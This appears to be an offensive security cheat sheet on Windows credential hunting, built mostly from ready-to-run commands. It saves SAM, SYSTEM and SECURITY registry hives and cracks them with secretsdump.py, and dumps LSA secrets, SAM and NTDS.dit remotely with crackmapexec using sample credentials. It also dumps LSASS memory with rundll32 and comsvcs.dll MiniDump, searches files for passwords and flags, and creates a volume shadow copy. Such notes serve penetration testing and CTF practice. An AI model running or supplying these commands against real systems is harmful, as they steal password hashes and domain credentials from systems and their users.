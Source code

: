 # Cred Hunting

## Copying SAM Registry Hives

If we have local admin access on target, we could copy three registry SAM hives, which would help us to dump and crack hashes



| Registry Hive                                         | Description                                                                         |
| ----------------------------------------------------- | ----------------------------------------------------------------------------------- |
| <mark style="color:green;">**`HKLM\sam`**</mark>      | Hashes associated with local account passwords                                      |
| <mark style="color:green;">**`HKLM\system`**</mark>   | System bootkey, which is encryption/decryption key for SAM                          |
| <mark style="color:green;">**`HKLM\security`**</mark> | Cached credentials for domain accounts, it is not 100% needed, but would help a lot |

For dumping hives we would use reg.exe as admin

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.
```

### Running secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

## **Remote Dumping**

#### **Dumping LSA Secrets Remotely**

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --lsa
```

#### Dumping SAM Remotely&#x20;

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --sam
```

#### Dumping  NTDS.dit Remotely

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

## LSASS Dumping

**Rundll32.exe & Comsvcs.dll Method**

<mark style="color:orange;">**IMPORTANT: Anitivirus would see this as malicious activity.**</mark> The point of method is that we use <mark style="color:blue;">**rundll32.exe**</mark> to call an exported function of <mark style="color:blue;">**comsvcs.dll**</mark> which also calls the **MiniDumpWriteDump** (**MiniDump**) function to dump the **LSASS** process memory to a specified directory (**C:\lsass.dmp**). But to do this we'll need a LSASS PID. with <mark style="color:blue;">**`tasklist /svc`**</mark> in **cmd** or <mark style="color:blue;">**`Get-Process lsass`**</mark> in **powershell**. With PID we could dump LSASS memory.

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 666 C:\lsass.dmp full
```

## CMD

### Findstr

```powershell
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

C:\> findstr /s /i flag n:\*.*
```

### Dir

```powershell
dir n:\*flag* /s /
```

## PowerShell

### Include

```powershell
Get-ChildItem -Recurse -Path N:\ -Include *flag* -File
```

### Select-String

```powershell
Get-ChildItem -Recurse -Path N:\ | Select-String "flag" -List
```

## Creating Shadow Copy of C:

```powershell
PS C:\> vssadmin CREATE SHADOW /For=C:
```

## Stealing NTDS.dit using CME

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

***

